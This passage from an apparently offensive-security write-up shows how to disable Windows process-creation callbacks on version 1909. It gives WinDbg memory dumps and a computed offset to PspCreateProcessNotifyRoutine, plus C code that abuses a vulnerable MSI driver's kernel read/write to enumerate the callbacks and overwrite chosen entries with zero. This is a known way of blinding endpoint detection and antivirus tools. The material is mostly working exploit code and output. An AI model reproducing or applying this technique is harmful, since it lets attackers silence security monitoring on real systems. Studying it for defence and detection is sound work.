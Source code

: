 Now, let's calculate our offsets for Windows 1909 for the callback array of `PspCreateProcessNotifyRoutine`:

```
lkd> dq nt!pspcreateprocessnotifyroutine
fffff802`23305ea0  ffffaa88`6946151f ffffaa88`696faa8f
fffff802`23305eb0  ffffaa88`6c607e4f ffffaa88`6c60832f
fffff802`23305ec0  ffffaa88`6c6083ef ffffaa88`6c60f4ff
fffff802`23305ed0  ffffaa88`6c60fdcf ffffaa88`6c6106ff
fffff802`23305ee0  ffffaa88`732701cf ffffaa88`7327130f
fffff802`23305ef0  ffffaa88`771818af ffffaa88`7cb3b1bf
fffff802`23305f00  00000000`00000000 00000000`00000000
fffff802`23305f10  00000000`00000000 00000000`00000000
lkd> dq nt!pssetcreateprocessnotifyroutine L1
fffff802`235536b0  d233c28a`28ec8348
```
It looks like the callback array lives at `PsSetCreateProcessNotifyRoutine + 0x24D810` in this version of Windows.

Now, let's use our memory read functionality so kindly provided by the MSI driver and the author of the driver exploit, to retrieve and list these callback routines. We also add functionality to specify a callback function to be removed:
```
const DWORD64 PspCreateProcessNotifyRoutineAddress = PsSetCreateProcessNotifyRoutineAddress - 0x24D810;
Log("[+] PspCreateProcessNotifyRoutine: %p", PspCreateProcessNotifyRoutineAddress);
Log("[+] Enumerating process creation callbacks");
int i = 0;
for (i; i < 64; i++) {
    DWORD64 callback = ReadMemoryDWORD64(Device, PspCreateProcessNotifyRoutineAddress + (i * 8));
    if (callback != NULL) {//only print actual callbacks
        callback =(callback &= ~(1ULL << 3)+0x1);//remove last 4 bytes, jmp over first 8
        DWORD64 cbFunction = ReadMemoryDWORD64(Device, callback);
        FindDriver(cbFunction);
        if (cbFunction == remove) {//if the address specified to be removed from the array matches the one we just retrieved, remove it.
            Log("Removing callback to %p at address %p", cbFunction, PspCreateProcessNotifyRoutineAddress + (i * 8));
            WriteMemoryDWORD64(Device, PspCreateProcessNotifyRoutineAddress + (i * 8),0x0000000000000000);
        }
    }

}
```
The FindDriver function took some more work and is probably the worst code in the whole repo, but it works... We basically use EnumDeviceDrivers again, iterate over the driver addresses, store the addresses that are lower than the callback function address and then find the smallest difference. Yeah, I know... I'm not going to include it here, feel free to check it out in the repo if you want to suffer.

Great - so now we have achieved the following:
1. We find the array in memory
2. We can list the addresses of the functions that will be notified
3. We can see exactly which drivers these functions live in
4. We can remove specific callbacks
